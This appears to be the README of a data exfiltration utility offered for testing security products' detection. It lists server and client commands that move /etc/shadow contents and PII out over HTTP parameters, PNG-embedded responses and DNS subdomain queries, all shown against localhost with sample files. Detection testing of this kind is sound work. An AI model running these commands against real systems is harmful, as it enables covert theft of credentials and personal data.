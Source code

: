 # exfilkit

    ░▒▓ exfilkit ▓▒░ Data exfiltration utility for testing detection capabilities

## Description

Data exfiltration utility used for testing detection capabilities of security products. Obviously for legal purposes only.

## Exfiltration How-To

### /etc/shadow -> HTTP GET requests

#### Server

    # ./exfilkit-cli.py -m exfilkit.methods.http.param_cipher.GETServer -lp 80 -o output.log

#### Client

    $ ./exfilkit-cli.py -m exfilkit.methods.http.param_cipher.GETClient -rh 127.0.0.1 -rp 80 -i ./samples/shadow.txt -r

### /etc/shadow -> HTTP POST requests

#### Server

    # ./exfilkit-cli.py -m exfilkit.methods.http.param_cipher.POSTServer -lp 80 -o output.log

#### Client

    $ ./exfilkit-cli.py -m exfilkit.methods.http.param_cipher.POSTClient -rh 127.0.0.1 -rp 80 -i ./samples/shadow.txt -r

### PII -> PNG embedded in HTTP Response

#### Server

    $ ./exfilkit-cli.py -m exfilkit.methods.http.image_response.Server -lp 37650 -o output.log

#### Client

    # ./exfilkit-cli.py -m exfilkit.methods.http.image_response.Client -rh 127.0.0.1 -rp 37650 -lp 80 -i ./samples/pii.txt -r

### PII -> DNS subdomains querying

#### Server

    # ./exfilkit-cli.py -m exfilkit.methods.dns.subdomain_cipher.Server -lp 53 -o output.log

#### Client

    $ ./exfilkit-cli.py -m exfilkit.methods.dns.subdomain_cipher.Client -rh 127.0.0.1 -rp 53 -i ./samples/pii.txt -r
